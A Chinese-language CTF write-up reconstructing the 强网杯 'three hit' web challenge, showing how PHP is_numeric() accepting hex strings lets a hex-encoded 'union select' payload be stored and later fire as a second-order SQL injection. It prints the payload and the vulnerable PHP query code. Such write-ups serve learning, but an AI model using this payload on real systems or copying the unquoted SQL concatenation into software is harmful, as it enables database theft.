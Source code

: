 ```yaml
---
layout: post
title: 强网杯three hit复现
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


# 1.题目源码   

[https://github.com/ZhangAiQiang/three-hit](https://github.com/ZhangAiQiang/three-hit)    

题目并不真的是当时源码，是我根据做法自己写的，虽然代码烂，但是还好能达到复现的目的
，兄弟们star一下就是最大的鼓励啊。  

# 2.is_numeric()漏洞
is_numeric()检查是否是数字字符串，同时也可以是十六进制。  

比如  

>     is_numeric(1) true
>     is_numeric('a') false
>     is_numeric('2a') false
>     is_numeric(0xabcedf) true  

# 3.注册账号


>     root,root,0x3078656520756E696F6E2073656C656374207573657228292C322C33
>     age是一串十六进制，是
>     0xee union select user(),2,3  的十六进制形式
>     因为is_numeric()的关系，同样可以写进去，那么会是什么格式呢  

# 4.分析注册的时候的源码  

>     $sql="insert into user values('$username',md5('$password'),$age)";

可以看到$age是没有单引号保护的，那我们看一下数据库中的数据  

![](https://i.imgur.com/edi4jzk.png)  

(这里先说下，age并不是int类型，因为是int类型的话，字符串根本插不上。)  

  
我们明明是插入的十六进制数据，为什么会变成字符串呢？  

执行一下sql:   

>       insert into user values('root2',md5('root2'),0x3078656520756E696F6E2073656C656374207573657228292C322C33)
>       insert into user values('root3',md5('root3'),'0x3078656520756E696F6E2073656C656374207573657228292C322C33')
    
![](https://i.imgur.com/q4CXsdy.png)

两者的区别在于，age是否有单引号的保护，我们看到，当少了单引号后，插入的十六进制数据变成了字符串，和题目的源码正好对应了起来。  


# 5. 个人中心  

![](https://i.imgur.com/YvFrhhn.png)  

可以看到，已经注入出来了user。  

# 6.分析个人中心的源码  

username是存储在session里面的，然后功能是先找出你当前用户的age，然后根据当前用户的age寻找其他的具有相同age的用户。  
>     
$sql = "SELECT *  FROM user where username= '".$_SESSION['username']."'"; 这一句话查询出年龄，并没有什么危害。  

>     $sql = "SELECT *  FROM user where age=".$age; 
>     这句话是二次注入的引发点，因为age我们是可控的，我们注册的root账号里面age内容是  
>     0xee union select user(),2,3  
>     拼接:select * from user where age=0xee union select user(),2,3  

这样诸如就分析完了。  

# 7.总结:

age得为字符串类型  

插入注册信息的时候age字段没有单引号保护

我感觉就拿这个题目来说的话，平时工作谁会写出这么蠢的代码。